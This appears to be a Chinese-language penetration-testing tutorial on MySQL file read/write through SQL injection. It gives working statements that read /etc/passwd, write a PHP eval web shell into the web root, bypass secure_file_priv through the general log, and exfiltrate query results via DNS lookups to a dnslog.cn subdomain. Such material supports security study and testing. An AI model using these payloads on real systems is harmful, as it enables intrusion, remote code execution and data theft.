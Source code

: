 # 文件读写

## 读写权限

在进行MySQL文件读写操作之前要先查看是否拥有权限，mysql文件权限存放于mysql表的file_priv字段，对应不同的User，如果可以读写，则数据库记录为Y，反之为N：

我们可以通过user()查看当前用户是什么，如果对应用户具有读写权限，则往下看，反之则放弃这条路找其他的方法。

除了要查看用户权限，还有一个地方要查看，即**secure-file-priv**。它是一个系统变量，用于限制读写功能，它的值有三种：

（1）无内容，即无限制

（2）为NULL，表示禁止文件读写

（3）为目录名，表示仅能在此目录下读写

该配置项存放在`my.ini`中，修改之后必须重启mysql重新加载配置文件

## 读文件

如果满足上述2个条件，则可尝试读写文件了。

常用的读文件的语句有如下几种：

```
select load_file(file_path);
load data infile "/etc/passwd" into table 库里存在的表名 FIELDS TERMINATED BY 'n'; #读取服务端文件
load data local infile "/etc/passwd" into table 库里存在的表名 FIELDS TERMINATED BY 'n'; #读取客户端文件
```

需要注意的是，file_path必须为绝对路径，且反斜杠需要转义：

## 写文件

```
select 1,"<?php eval($_POST['cmd']);?>" into outfile '/var/www/html/1.php';
select 2,"<?php eval($_POST['cmd']);?>" into dumpfile '/var/www/html/1.php';
```

当secure_file_priv值为NULL时，可用生成日志的方法绕过：

```
set global general_log_file = '/var/www/html/1.php';
set global general_log = on;
```

日志除了general_log还有其他许多日志，实际场景中需要有足够的写入日志的权限，且需要堆叠注入的条件方可采用该方法，因此利用非常困难。

## DNS外带注入

若用户访问DNS服务器，则会在DNS日志中留下记录。如果请求中带有SQL查询的信息，则信息可被带出到DNS记录中。

利用条件：

1.secure_file_priv为空且有文件读取权限

2.目标为windows（利用了UNC，Linux不可行）

3.无回显且无法时间盲注

利用方法：

可以找一个免费的DNSlog：http://dnslog.cn/

进入后可获取一个子域名，执行：

```
select load_file(concat('\\',(select database()),'.子域名.dnslog.cn'));
```

相当于访问了select database().子域名.dnslog.cn，于是会留下DNSLOG记录，可从这些记录中查看SQL返回的信息。